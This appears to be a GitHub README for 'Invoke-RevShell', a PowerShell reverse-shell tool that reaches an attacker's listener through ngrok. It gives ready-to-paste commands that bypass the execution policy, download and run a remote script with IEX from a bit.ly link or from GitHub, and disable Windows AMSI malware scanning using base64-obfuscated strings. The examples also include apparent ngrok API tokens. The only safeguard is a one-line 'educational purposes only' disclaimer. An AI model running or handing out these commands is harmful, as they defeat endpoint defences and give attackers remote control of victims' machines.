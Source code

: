 ## Video:
[![ScreenShot](https://raw.githubusercontent.com/halitAKAYDIN/Ps-Revshell/main/2022-06-01-18%3A57%3A38.png)](https://youtu.be/2w3Y46Z4BwE "Powershell Auto Ngrok RevShell")

## Description
```
Auto detect remote server using ngrok api
```

## Requirements:
```
Ngrok
Netcat
```

## Example (Module):
```powershell
C:\PS> Import-Module .\Invoke-RevShell
C:\PS> Invoke-RevShell -api 29yl5EiFZzgT0Atb31Gi15TERuT_6SRPezQnv1kT2WLo5b1Mr
```

## Example (Default):

```powershell
C:\PS> powershell -ep Bypass -c "[Net.ServicePointManager]::SecurityProtocol=Net.SecurityProtocolType]::Tls12;
                                  IEX(New-Object Net.WebClient).downloadString('https://bit.ly/3N8EZjb'); 
                                  Invoke-RevShell -api 29yl5EiFZzgT0Atb31Gi15TERuT_6SRPezQnv1kT2WLo5b1Mr;"
```

## Example (Amsi Bypass):

```powershell
C:\PS> [Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true);
C:\PS> [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12 -bor [Net.SecurityProtocolType]::Tls11 -bor [Net.SecurityProtocolType]::Tls;
C:\PS> IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/halitAKAYDIN/Ps-Revshell/main/Invoke-RevShell.ps1'); 
C:\PS> Invoke-RevShell -api 29yq9XSYB6rbCwWUVZJENMjGFmG_tVLYBw5qyLRfqMVxDe5M;
```



## Disclaimer:

```
This tool is for educational purposes only.
We are not responsible for any illegal usage of this tool.
```
